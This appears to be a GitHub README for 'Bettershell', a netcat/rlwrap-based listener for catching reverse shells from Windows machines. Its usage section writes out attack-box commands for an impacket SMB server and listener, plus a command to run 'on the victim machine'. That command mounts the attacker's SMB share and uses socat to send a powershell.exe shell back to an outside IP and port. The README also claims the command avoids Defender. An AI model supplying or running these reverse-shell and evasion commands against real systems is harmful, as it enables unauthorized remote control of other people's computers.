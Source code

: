 # Bettershell
Bettershell is a basic netcat client, supercharged with rlwrap, socat, a large Powershell command wordlist, and bash scripting.

### Features:
* Shells won't die on CTRL+C
* Tab autocomplete based on a Windows command list
* Filesystem tab autocomplete, thanks to rlwrap's smart output parser
* Working arrowkey movement
* Searchable command history with CTRL+W
* An accurate path prompt
* No double echo of commands
* It's blue! Is it really powershell if it isn't blue?

Although bettershell can be used to catch any reverse shell from a Windows box, the included 'socat.exe' binary is strongly recommended to properly pipe stderr messages to your listener - visible error messages are invaluable when privilege-escalating.
## Usage

Open port 445, then start up an impacket SMB server on your attack box in the same directory as socat.exe:
```
sudo smbserver.py SMB . -comment SMB -ts -debug -smb2support -username user -password pass
```
Start a listener in another window: ```./bettershell -nlvp yourPORT```

Lastly, execute the following on the victim machine:
```
cmd.exe /c net use x: \\yourIP\SMB /user:user pass & x:\socat.exe tcp-connect:yourIP:yourPORT exec:powershell.exe,pty,stderr
```
The above example shouldn't trigger Defender. Exclude authentication when attacking older PCs that don't support it.
